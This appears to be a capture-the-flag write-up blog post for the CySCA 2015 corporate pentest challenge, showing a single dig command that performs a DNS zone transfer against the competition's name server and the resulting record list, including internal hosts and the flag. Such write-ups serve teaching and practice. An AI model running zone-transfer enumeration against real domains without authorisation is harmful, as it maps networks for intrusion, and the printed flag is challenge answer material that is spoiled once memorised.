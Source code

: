 ```yaml
---
title: CySCA 2015 - Corporate Pentest 0.0 - Danger Zone
author: nickw
layout: post

dsq_thread_id:
  - 809215685
categories:
  - Blog
  - Security
---
```



Similar to last year, we perform a domain transfer request to show all the records in the domain, revealing the flag.

{% highlight bash %}
$> dig -t axfr ecwi.cysca @ns.ecwi.cysca

; <<>> DiG 9.8.3-P1 <<>> -t axfr ecwi.cysca @ns.ecwi.cysca
;; global options: +cmd
ecwi.cysca.     86400   IN  SOA ns.ecwi.cysca. admin.ecwi.cysca. 2015070401 28800 7200 864000 86400
ecwi.cysca.     86400   IN  NS  ns.ecwi.cysca.
ecwi.cysca.     86400   IN  A   172.16.5.80
ns.ecwi.cysca.      300 IN  A   172.16.5.53
proxy.ecwi.cysca.   300 IN  A   172.16.5.30
support.ecwi.cysca. 300 IN  A   172.16.5.85
www.ecwi.cysca.     300 IN  A   172.16.5.80
zonetransferflag.ecwi.cysca. 300 IN TXT "FLAG{749929CE145DD73A8D1530E2170B1587}"
ecwi.cysca.     86400   IN  SOA ns.ecwi.cysca. admin.ecwi.cysca. 2015070401 28800 7200 864000 86400
;; Query time: 221 msec
;; SERVER: 172.16.5.53#53(172.16.5.53)
;; WHEN: Wed Sep 30 19:35:44 2015
;; XFR size: 9 records (messages 1, bytes 289)
{% endhighlight %}

